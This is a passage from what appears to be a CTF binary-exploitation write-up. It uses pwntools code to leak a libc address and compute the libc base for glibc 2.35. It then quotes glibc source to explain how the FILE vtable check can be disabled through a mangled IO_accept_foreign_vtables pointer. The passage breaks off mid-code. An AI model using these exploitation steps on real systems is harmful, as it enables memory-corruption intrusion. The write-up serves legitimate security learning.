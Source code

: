 ```py
def fflush():
    io.recvuntil(b'?')
    io.sendline(b'3')

```

Now that we can read and write easily, we start off by leaking libc and calculate the base address of libc. Standard stuff:

NOTE: I'm doing this on `Ubuntu GLIBC 2.35-0ubuntu3.1`, a copy of it can be found in this repo. Your offsets may differ

```py
puts_leak = read(0x404018)
libc_base = puts_leak - 0x80ed0

log.info(f"LIBC BASE: {libc_base:#x}")
```

Once libc is leaked, we can get to the fun part.

## PTR_MANGLE

Let's take a look at the vtable disabling code again:

```C
/* If equal to &_IO_vtable_check (with pointer guard protection),
   unknown vtable pointers are valid.  This function pointer is solely
   used as a flag.  */
extern void (*IO_accept_foreign_vtables) (void) attribute_hidden;

/* Assigns the passed function pointer (either NULL or
   &_IO_vtable_check) to IO_accept_foreign_vtables.  */
static inline void
IO_set_accept_foreign_vtables (void (*flag) (void))
{
#ifdef PTR_MANGLE
  PTR_MANGLE (flag);
#endif
  atomic_store_relaxed (&IO_accept_foreign_vtables, flag);
}
```

As we can see, to disable the vtable check we have to store mangled pointer to `_IO_vtable_check` inside of `IO_accept_foreign_vtables`

If we check `_IO_vtable_check` we can also see it demangles it before it checks it:

```C
void attribute_hidden
_IO_vtable_check (void)
{
#ifdef SHARED
  /* Honor the compatibility flag.  */
  void (*flag) (void) = atomic_load_relaxed (&IO_accept_foreign_vtables);
#ifdef PTR_DEMANGLE
  PTR_DEMANGLE (flag);
#endif
  if (flag == &_IO_vtable_check)
    return;

  /* In case this libc copy is in a non-default namespace, we always
     need to accept foreign vtables because there is always a
     possibility that FILE * objects are passed across the linking
     boundary.  */
  {
    Dl_info di;
```